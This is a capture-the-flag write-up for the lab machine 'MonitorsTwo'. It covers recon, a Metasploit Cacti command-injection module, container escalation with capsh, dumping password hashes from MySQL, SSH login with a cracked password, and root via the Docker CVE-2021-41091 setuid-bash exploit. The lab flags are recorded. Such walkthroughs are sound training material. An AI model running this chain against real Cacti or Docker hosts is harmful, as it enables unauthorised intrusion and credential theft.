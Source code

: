# Recon

All tcp scan: 

```sh
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.211
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Detailed scan:

```sh
nmap -p 22,80 -sVC --min-rate 10000 -oA scans/nmap-tcpdetail 10.10.11.211
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Directory enumeration didn't yield anything cruicial.

# Shell as marcus

We visit port 80 and we can see that cacti version used for this site is
vulnerable to RCE. To exploit it, we can use metasploit module:

```
[msf](Jobs:0 Agents:0) exploit(linux/http/cacti_unauthenticated_cmd_injection)
```

After getting access and running linpeas, we realize that we are inside a docker
container. Also, there is a suid command that can be used to escalate privileges
inside this container, which will be useful later:

```sh
capsh --gid=0 --uid=0 --
```

In root directory, we can see script that reveals database credentials. We use them
to show tables, and among them, there is user_auth table. We select information
from it:

```sh
mysql --host=db --user=root --password=root cacti -e "select * from user_auth;"
id	username	password 	...SNIP...
1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	...SNIP...
3	guest	43e9a4ab75570f5b    ...SNIP...
4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C ...SNIP...
```

The password hash of user marcus can be cracked:  

![](images/cracked.jpg)

Site used:
[https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)

We can try to login with it via ssh, discovered before via nmap:

```sh
> ssh marcus@10.10.11.211
```


When asked for password, we type in "funkymonkey" and it works!

```sh
marcus@monitorstwo:~$ whoami
marcus
```

# Shell as root

After logging in, following message appears:

```
You have mail.
Last login: Sun May 28 10:07:01 2023 from 10.10.14.12
```

We check the mail:

```sh
cd /var/mail
cat marcus
```

```
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have 
been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14
and is related to the CIPSO and CALIPSO refcounting for the DOI definitions.
Attackers can exploit this use-after-free issue to write arbitrary values.
Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and 
occurs due to improper escaping of error messages during template import previews in the 
xml_path field. This could allow an attacker to inject malicious code into the webpage,
potentially resulting in the theft of sensitive data or session hijacking.
Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created
by Docker for software containerization. Attackers could exploit this vulnerability
by traversing directory contents and executing programs on the data directory with
insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine)
version 20.10.9, and users should update to this version as soon as possible.
Please note that running containers should be stopped and restarted for the 
permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly
to avoid any potential security breaches. If you have any questions or concerns,
please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

As we can see, they conviniently provided us with CVE's to exploit.

```bash
docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```

Docker version on this system is vulnerable to CVE described in email.
There is exploit ready on github for this one.

First, as a root, we set suid on /bin/bash on container we have 
access to:

```sh
chmod u+s /bin/bash
```

Then, on attacker machine, we clone the repo with exploit:

```sh
git clone https://github.com/UncleJ4ck/CVE-2021-41091
cd CVE-2021-41091
```

We upload exploit to target machine:

```sh
scp ./exp.sh marcus@10.10.11.211:/home/marcus
```

We run it:

```sh
chmod +x exp.sh
./exp.sh
```

Afterwards, if root session was not created yet, we run following commands
to gain root access:

```sh
cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

./bin/bash -p
bash-5.1# whoami
root
```

# Flags

User flag:
```
f79875a9ba1ae3763a21927b6dfa8eb8
```

Root flag:
```
919932474fe6e25eafd2f040641d1454
```

